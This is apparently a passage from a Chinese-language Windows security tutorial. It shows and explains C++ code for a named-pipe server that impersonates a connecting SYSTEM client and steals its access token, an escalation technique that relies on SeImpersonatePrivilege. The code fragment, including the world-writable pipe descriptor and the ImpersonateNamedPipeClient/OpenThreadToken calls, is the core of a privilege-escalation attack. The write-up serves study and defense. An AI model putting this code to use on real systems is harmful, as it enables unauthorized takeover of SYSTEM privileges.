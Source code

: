 ```c++
    DWORD buffer_size = 0;

    InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
    ConvertStringSecurityDescriptorToSecurityDescriptorW(L"D:(A;OICI;GA;;;WD)", 1, &((&sa)->lpSecurityDescriptor), NULL);

    hPipe = CreateNamedPipe(pwszPipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_BYTE | PIPE_WAIT, 10, 2048, 2048, 0, &sa);
    wprintf(L"[*] Named pipe '%ls' listening...\n", pwszPipeName);
    ConnectNamedPipe(hPipe, NULL);  
    wprintf(L"[+] A client connected!\n");

    ImpersonateNamedPipeClient(hPipe);
    OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken);
    ImpersonatedUser(hToken);
    CloseHandle(hPipe);
    return 0;
}
```

代码运行演示如下，说说实现思路

<img src="/img/seim.gif" alt="seim" style="zoom:67%;" />

这里我们用Administrator账户（具有SeImpersonatePrivilege特权）的shell终端运行自己编写的”恶意“命名管道服务端，让具有System权限的命名管道客户端向我们创建的服务端写入数据，成功运用命名管道客户端模拟以达到Token令牌窃取的效果。关键代码：

```c++
ImpersonateNamedPipeClient(hPipe);
OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken);
ImpersonatedUser(hToken);
```
